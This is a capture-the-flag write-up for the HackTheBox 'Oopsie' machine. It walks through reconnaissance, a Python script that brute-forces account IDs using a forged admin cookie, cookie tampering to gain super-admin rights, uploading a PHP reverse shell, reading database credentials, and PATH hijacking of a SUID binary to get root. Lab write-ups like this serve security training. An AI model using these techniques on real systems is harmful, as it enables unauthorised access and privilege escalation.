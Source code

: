 ```yaml
---
title: "HackTheBox - Oopsie Writeup"
date: 2021-07-20
draft: false
tags: ["SUID", "path-abused", "upload-vuln"]
htb: "HacktheBox"
linux: "Linux"
---
```


## Enumeration

- Top 1000 ports scan

```sql
nmap -sC -sV -oN nmap/inital 10.10.10.28
```

![2](2.png)

- all ports scan

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.28
```

![3](3.png)

- Still the same result 
- Open ports
	- port 22 / ssh 
	- port 80 / http


### The Website
![4](4.png)

### Gobuster
- Auto recon in the background
- looking the hidden directory

```bash
gobuster dir -u http://10.10.10.28 -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -o gobuster.log
```
- The result

![5](5.png)

This webpage have an upload directory.

### Login Page
- Found something insteresting in the source code


![6](6.png)

- the directory into `/cdn-cgi/login/script.js`
- navigate into `http://10.10.10.28/cdn-cgi/login`
- found the login page

![7](7.png)

- Got the credentials in previous box called [Archetype](/htb/archetype) _in official pdf_
- Successfully login as admin

![8](8.png)

### Can't Upload
- navigate to the upload page
- it says `super admin` have right to view it

![9](9.png)

### The ID

![10](10.png)

- This page appear to be `user table` base on the `id parameter` in the link
- Making `python script` for IDs brute-force 

## Foothold/Gaining Access

### Python Script
- python script for ID brute force
- need cookies for authentication

```python
#!/usr/bin/env python3

import requests

for i in range(101):
    url = f"http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id={i}"
    c = {'user':'34322','role':'admin'}
    r = requests.get(url, cookies=c)

    if len(r.content) == 3595: # nothing appear just pass it
        pass
    else:
        print(f"Check this ID out {i}")
print("Done")
```
- The result

![11](11.png)

- Here is the ID lead to (in order)

```javascript
{'access id':'34322','name':'admin','email':'admin@megacorp.com'}
{'access id':'8832','name':'john','email':'john@tafcz.co.uk'}
{'access id':'57633','name':'Peter','email':'peter@qpic.co.uk'}
{'access id':'28832','name':'Rafol','email':'tom@rafol.co.uk'}
{'access id':'xxxxx','name':'super admin','email':'superadmin@megacorp.com'}
```

### Upload as super admin
- Found the super admin table

![12](12.png)

- Turns out the `Access ID` it is the `cookie value`
- Change the admin cookies into super admin

![13](13.png) <br>_before_

![14](14.png) <br>_after refresh the page_

### Reverse Shell
- Upload the php reverse shell
  - [Here is the source ](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

![15](15.png)

- Activated the reverse shell
  - through this link

![16](16.png)

- Got the shell

![17](17.png)

### www-data
- Found the credentials in file called `db.php`
- in `/var/www/html/cdn-cgi/login/db.php`

![18](18.png)

### Robert
- Login as robert

![19](19.png)

### User Flag

![20](20.png)

- Find the <font color="yellow">SUID</font>
- The command for find it

```bash
find / -user root -perm -4000 -exec ls {} \; 2>/dev/null
```
- Found weird binary that not suppose to be there

![21](21.png)

## Privilege Escalation

### Bugtracker
- This is how it works
- However it says `no such file or directory`

![22](22.png)

- Try `strings` out the binary 
- Turns out this binary use `cat command`
- However this is use relative path

![23](23.png)

- explain the _`relative & absolute path`_

![24](24.png)

### Relative Path Abused
- Make a fake `cat command`
	- by puting `/bin/bash` in it
	- the bugtracker binary will execute this fake file as `root`
	- [source for relative path abused](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

![25](25.png)

### Root Flag

![26](26.png)

## Conclusion
I’ve learned a lot today. Never put the user ID as cookies value and make sure you configure the website properly. Lastly, make sure to configure the SUID binary carefully and do not put any untrust or unpatched version as SUID

I have a fun time doing this machine and I hope you guys too. Bye ;)